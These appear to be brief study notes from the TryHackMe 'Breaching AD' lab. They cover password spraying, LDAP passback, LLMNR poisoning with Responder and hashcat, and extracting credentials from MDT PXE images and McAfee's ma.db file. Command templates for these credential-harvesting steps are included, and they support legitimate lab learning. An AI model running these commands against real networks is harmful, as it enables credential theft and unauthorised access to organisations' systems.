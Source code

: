 # Breaching AD (thm)

* Password praying
* LDAP passback&#x20;
  * Exemple : modify printer setting and specify our server (plain text setting)&#x20;
  * Set up netcat server or ldap server(if there is ldap connection handshake)
  * connect printer to our server&#x20;
  * and we got  plain text password with tcpdump

<figure><img src="https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/d2f78ae2b44ef76453a80144dac86b4e.png" alt=""><figcaption></figcaption></figure>



* Authentication relay -> LLMNR Poisoning

<figure><img src="https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/6baba3537d36d0fa78c6f61cf1386f6f.png" alt=""><figcaption></figcaption></figure>

```
sudo responder -I <interface>
hashcat -m 5600 <hash file> <password file> --force

```

* Microsoft Deployment Toolkit

<figure><img src="https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/8117a18103e98ee2ccda91fc87c63606.png" alt=""><figcaption></figcaption></figure>

```
# Connect to windows machine
# Download .bcd file via tftp
tftp -i <THMMDT IP> GET "\Tmp\x64{39...28}.bcd" conf.bcd
# read bcd file with powerxpe
powershell -executionpolicy bypass
Import-Module .\PowerPXE.ps1
$BCDFile = "conf.bcd"
Get-WimFile -bcdFile $BCDFile

# After getting pxe image via powerpxe, download it 
tftp -i <THMMDT IP> GET "<PXE Boot Image Location>" pxeboot.wim
# Retrieve Creds
Get-FindCredentials -WimFile pxeboot.wim


```

* McAfee configuration file

```
# Retrieve the ma.db file from C:\ProgramData\McAfee\Agent\DB
scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .
# read it with sqlite browser
sqlitebrowser ma.db
# After getting creds, crack password with mcafeesitelistpwddecryption
python2 mcafee_sitelist_pwd_decrypt.py <AUTH PASSWD VALUE>

```
